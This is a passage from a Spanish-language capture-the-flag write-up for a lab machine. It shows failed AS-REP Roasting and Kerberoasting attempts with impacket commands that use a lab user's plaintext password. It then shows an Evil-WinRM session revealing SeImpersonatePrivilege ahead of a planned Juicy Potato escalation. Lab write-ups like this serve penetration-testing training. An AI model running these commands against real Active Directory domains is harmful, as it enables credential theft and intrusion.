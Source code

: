 Esto lo pudimos haber hecho antes, pero era mejor esperarse.

Lo primero será tratar de ver si era posible aplicar el **AS-REP Roasting Attack**, usando el **usuario hacker** sin su contraseña:
```bash
impacket-GetNPUsers chimichurri.thl/hacker -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
[-] User hacker doesn't have UF_DONT_REQUIRE_PREAUTH set
```
Pero no funciona.

Ahora, como ya tenemos su contraseña, podemos intentarlo:
```bash
impacket-GetNPUsers chimichurri.thl/hacker:Perico69
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
No entries found!
```
Igual no funcionó.

Por último, podemos probar si podemos aplicar el **Kerberoasting Attack**:
```bash
impacket-GetUserSPNs chimichurri.thl/hacker:Perico69
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

No entries found!
```
Nada tampoco.

Parece que no podremos hacer más contra el **servicio Kerberos**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="JuicyPotato">Escalando Privilegios con Juicy Potato</h2>

Al ver los privilegios de nuestro usuario, podemos ver un privilegio interesante:
```batch
*Evil-WinRM* PS C:\Users\hacker\Desktop> whoami /priv

INFORMACIàN DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci¢n                                  Estado
============================= ============================================ ==========
SeMachineAccountPrivilege     Agregar estaciones de trabajo al dominio     Habilitada
SeChangeNotifyPrivilege       Omitir comprobaci¢n de recorrido             Habilitada
SeImpersonatePrivilege        Suplantar a un cliente tras la autenticaci¢n Habilitada
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Habilitada
```
Parece que no será necesario usar **BloodHound** esta vez.
